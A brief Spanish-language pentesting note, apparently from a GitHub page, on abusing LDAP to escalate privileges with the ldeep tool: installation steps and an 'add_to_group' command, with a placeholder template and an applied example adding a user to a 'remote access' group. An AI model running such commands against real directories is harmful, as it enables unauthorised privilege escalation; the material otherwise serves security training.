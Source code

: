 # Intro

En algunos casos podemos abusar de ldap para elevar nuestros privilegios. Para esto podemos usar ldeep

# instalación

### 1) Creamos un entorno virtual

    python -m venv ldeep

### 2) entramos al entorno virtual

    source ldeep/bin/activate

### 3) Instalamos ldeep

    python -m pip install ldeep

# Ejemplo de uso

### agregarnos a un grupo


    ldeep ldap -u <user> -p '<pass>' -d <domain> -s ldap://<domain> add_to_group "CN=<user>,OU=<grupo_al_que_pertenecemos>,DC=<dominio>,DC=<dominio(com,local)>" "CN=<grupo al que nos vamos a agregar>,OU=<ou del grupo>,DC=<domain>,DC=<dominio>


Ejemplo aplicado

    ldeep ldap -u fulano -p 'mengano' -d dominio.local -s ldap://dominio.local add_to_group "CN=Fulano Flores,OU=STAFF,DC=dominio,DC=local" "CN=remote access,OU=remote,DC=dominio,DC=local"
